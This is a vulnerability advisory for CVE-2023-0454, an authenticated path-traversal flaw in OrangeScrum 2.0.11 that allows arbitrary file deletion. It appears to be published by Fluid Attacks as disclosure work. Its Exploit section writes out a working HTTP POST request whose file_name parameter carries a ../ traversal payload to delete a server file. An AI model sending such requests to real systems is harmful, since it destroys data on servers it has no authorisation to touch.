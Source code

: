 ```yaml
---
slug: advisories/slushii/
title: OrangeScrum 2.0.11 - Arbitrary File Delete via file_name
authors: Carlos Bello
writer: cbello
codename: slushii
product: OrangeScrum 2.0.11
date: 2023-01-30 12:00 COT
cveid: CVE-2023-0454
severity: 8.1
description: OrangeScrum 2.0.11 - Arbitrary File Delete via file_name
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, Arbitrary File Delete
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                          |
| --------------------- | -------------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Arbitrary File Delete via file_name |
| **Code name**         | [Slushii](https://en.wikipedia.org/wiki/Slushii)         |
| **Product**           | OrangeScrum                                              |
| **Affected versions** | 2.0.11                                                   |
| **State**             | Public                                                   |
| **Release Date**      | 2023-01-30                                               |

## Vulnerability

|                       |                                                                                                            |
| --------------------- | -----------------------------------------------------------------------------------------------------------|
| **Kind**              | Lack of data validation - Path Traversal                                                                   |
| **Rule**              | [063. Lack of data validation - Path Traversal](https://docs.fluidattacks.com/criteria/vulnerabilities/063)|
| **Remote**            | Yes                                                                                                        |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:H                                                               |
| **CVSSv3 Base Score** | 8.1                                                                                                        |
| **Exploit available** | No                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0454](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0454)                              |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
delete arbitrary local files from the server. This is possible because
the application uses an unsanitized attacker-controlled parameter to
construct an internal path.

## Vulnerability

This vulnerability occurs because the application uses an unsanitized
attacker-controlled parameter to construct an internal path.

## Exploit

To exploit this vulnerability, we only need to send the following
malicious malicious request to the server.

```txt
POST /projects/delete_file HTTP/1.1
Host: retr02332bughunter.orangescrum.com
Cookie: USER_UNIQ=1515f12e8e8fc20b7a103011dee82b89; USERTYP=2; USERTZ=49; USERSUB_TYPE=0;
User-Agent: Retr02332
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 96
Connection: close

file_name=../../../../../../../../../../../../../var/www/html/orangescrum/app/webroot/hacked.txt
```

## Evidence of exploitation

![vulnerability-code](https://user-images.githubusercontent.com/51862990/214197500-6dc5e3cc-3628-49a7-88c4-b451be1649eb.png)

![before-delete](https://user-images.githubusercontent.com/51862990/214197541-d13f3117-5445-4cea-8b65-9d681ce4b26a.png)

![delete-file-proxy](https://user-images.githubusercontent.com/51862990/214197697-52b886ee-3649-436f-ad70-d4f19a348144.png)

![after-delete](https://user-images.githubusercontent.com/51862990/214197448-5f946fa1-01cf-432d-9bdc-b9fc449e7248.png)

## Our security policy

We have reserved the ID CVE-2023-0454 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-23"
  contacted="2023-01-23"
  replied="2023-01-23"
  confirmed=""
  patched=""
  disclosure="2023-01-30">
</time-lapse>
